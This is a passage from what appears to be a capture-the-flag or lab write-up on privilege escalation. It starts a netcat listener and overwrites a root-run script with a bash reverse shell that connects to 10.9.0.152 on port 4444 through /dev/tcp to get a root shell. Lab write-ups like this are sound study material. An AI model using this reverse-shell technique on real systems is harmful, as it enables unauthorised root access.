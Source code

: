 ![image](https://user-images.githubusercontent.com/67465230/186945392-f39bf740-c750-4d55-a8f8-a91e29076634.png)

Its owner is root and when run, it will eventually run as root.

Now, start a listener using `nc -nvlp 4444` and edit the file with our bash shell into the script,

```bash
cat > /usr/local/bin/main_backup.sh
#!/bin/bash                                          
bash -c 'exec bash -i &>/dev/tcp/10.9.0.152/4444 <&1'
```

When this script runs automatically, 

![image](https://user-images.githubusercontent.com/67465230/186945440-353deac4-0210-4204-b295-e4e368d7751a.png)

we get a root shell. 